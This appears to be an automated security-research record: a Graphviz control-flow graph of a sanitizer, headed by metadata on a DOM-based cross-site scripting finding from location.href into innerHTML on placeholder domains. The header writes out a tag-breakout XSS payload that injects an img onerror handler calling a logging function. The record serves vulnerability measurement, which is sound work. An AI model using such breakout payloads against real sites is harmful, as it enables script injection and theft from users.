 // Finding: 38ce9e0e-363a-408b-919f-fd3d3eb401fc
// Finding.url: https://www.example443.com/v/1651087/
// Finding.parentloc: https://www.example443.com/v/1651087/#%23%22%3E%3C%2Fiframe%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3C%2Fobject%3E%3C%2Fembed%3E%3C%2Ftextarea%3E%3Cimg%20src=x%20onerror=taintfoxLog('66b17ace20464d298dcfb91cc305fdd7')%3E%3C!--%2F*
// Finding.domain: www.example443.com
// Finding.base_domain: example443.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 24
// Sanitizer.name: <synthetic>
// Sanitizer.location: example18.com
// Finding.begin: 257
// Finding.end: 260
// Finding.original_uuid: 52e0afab-d711-4aef-bb11-a420be295692
// Finding.TwentyFiveMillionFlowsId: 1492195432
// Finding.script: https://lab3.example444.com/ads_banner.php?usid=36&caid=311&id=4619&code=slrysbjuprhfthf&r=https://adclick.g.doubleclick.net/pcs/click%3Fxai%3DAKAOjstdn8Xyv1ZjaBjxgejFAQjkfR_-D5Zn1edTUiQ38sCOcfvWuUxFwloCvZuE1fV_H7zh_K8WbiQD2IbFVPA1HbwReTd0Jp1s3RefKAgv9XMO2KXt1H0vFjbHf3s-5eeNjf4IYYwofYNo5oPMX7NqCnKwTtInugNdv3OFBsUkf9kkeEOM2_8Ews5bg2B4h_oTsA6l4mIdFi9M57WOQh8Hz3-OZhWJzzIFdex669SxUktZnE_CPfmMqg0bUyrUtimgmJcheHZO4Og1_MAy6GXjP0yz6ommM898hXen9XAABhiWC9tPwXXSQ8yYX_DsFp0YKuPcQAnuxEZBhrPsATOH20J5nfGpMLsaQWJSifoM1GrgyyO1aJiw9w6kFa6sdeQ%26sai%3DAMfl-YQSVHJ9_SzIsTXNcSZby18GeDQLWB_QaokJXBO98LrcMRKj_XWApAVakotDgk3oj-ylxtjh-KDaXFEgSEJQl1nlLj-_4EbnVD-yk3-DL_ckvlL-oKDF75LvICSHSQ4r%26sig%3DCg0ArKJSzBLr6OLx45jnEAE%26fbs_aeid%3D%5Bgw_fbsaeid%5D%26urlfix%3D1%26adurl%3D&ord=88245912&awxparam=landingpage::,utm_source::,utm_medium::,utm_campaign::
// Finding.line: 1
// Exploit.uuid: 66b17ace-2046-4d29-8dcf-b91cc305fdd7
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: "
// Exploit.tag: iframe
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 29
// Exploit.replace_begin_url: 29
// Exploit.replace_end_url: 29
// Exploit.replace_begin_param: 111
// Exploit.replace_end_param: 111
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: true
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -729869893
// DepGraph.sanitizer_hash: 2039088015
// Merged split and join statements 
// Merged split and join statements 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="preg_replace"];
n2 [shape=box, label="RegExp: /%27/"];
n3 [shape=box, label="Lit: '"];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="substr"];
n6 [shape=box, label="Var: x"];
n7 [shape=box, label="Lit: 0"];
n8 [shape=box, label="Lit: 18"];
n9 [shape=ellipse, label="."];
n10 [shape=box, label="Lit: /"];
n11 [shape=ellipse, label="substr"];
n12 [shape=box, label="Var: x"];
n13 [shape=box, label="Lit: 0"];
n14 [shape=box, label="Lit: 19"];
n15 [shape=ellipse, label="."];
n16 [shape=box, label="Lit: v/1651087/#%23%22%3E%3C%2Fiframe%3E%3C%2Fstyle%3E%3C%2Fscript%....r=taintfoxLog('66b17ace20464d298dcfb91cc305fdd7')%3E%3C!--%2F*"];
n17 [shape=ellipse, label="preg_replace"];
n18 [shape=box, label="RegExp: /[.]/"];
n19 [shape=box, label="Lit: ."];
n20 [shape=box, label="Var: x"];
n21 [shape=box, label="Var: x"];
n22 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n6 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n9 -> n5;
n9 -> n10;
n12 -> n9;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n15 -> n11;
n15 -> n16;
n20 -> n15;
n17 -> n18;
n17 -> n19;
n17 -> n20;
n21 -> n17;
n22 -> n21;
}